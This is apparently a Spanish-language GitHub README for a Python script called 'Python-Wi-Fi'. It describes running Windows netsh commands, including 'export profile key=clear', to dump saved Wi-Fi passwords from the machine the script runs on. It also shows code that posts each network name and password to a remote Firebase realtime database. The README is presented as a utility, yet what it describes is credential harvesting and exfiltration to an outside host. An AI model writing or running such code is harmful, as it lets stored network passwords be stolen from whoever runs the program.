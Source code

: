 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
netsh wlan show networks
netsh wlan export profile key=clear
```


Lo que deja ver las
#### redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('REALTIME DATABASE URL')
data = {"Wi-Fi": wifi_names[index],"Password": passwords[index]}
datos = db.post("/wifi's", data)
```
### Ejemplo de URL:
```python
db = firebase.FirebaseApplication('https://miproyecto-default-rtdb.firebaseio.com/')
```
